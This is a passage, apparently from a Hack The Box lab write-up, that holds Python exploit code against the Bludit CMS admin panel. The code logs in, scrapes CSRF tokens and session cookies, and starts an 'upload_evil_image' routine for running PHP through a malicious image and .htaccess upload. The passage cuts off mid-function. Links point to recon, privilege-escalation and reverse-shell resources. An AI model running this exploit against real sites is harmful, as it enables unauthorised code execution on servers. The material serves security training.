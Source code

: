 ```python
    login_page = session.get(url + "/admin/")
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
                           login_page.text
                 ).group(1)
    cookie = ((login_page.headers["Set-Cookie"]).split(";")[0].split("=")[1])
    data = {"save":"",
            "password":password,
            "tokenCSRF":csrf_token,
            "username":username}
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer": url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
               "Content-Type":"application/x-www-form-urlencoded"
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/",
                            data=data,
                            headers=headers,
                            cookies=cookies,
                            allow_redirects = False
               )

    print("cookie: " + cookie)
    return cookie

def get_csrf_token(url,cookie):
    """ Grab the CSRF token from an authed session """

    session = requests.Session()
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate"}
    cookies = {"BLUDIT-KEY":cookie}
    response = session.get(url + "/admin/dashboard",
                           headers=headers,
                           cookies=cookies
               )
    csrf_token = response.text.split('var tokenCSRF = "')[1].split('"')[0]

    print("csrf_token: " + csrf_token)
    return csrf_token

def upload_evil_image(url, cookie, csrf_token, payload, override_uuid=False):
    """ Upload files required for to execute PHP from malicious image files. Payload and .htaccess """

    session = requests.Session()
    files= {"images[]": (payload,
                         open(payload, "rb"),
```

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell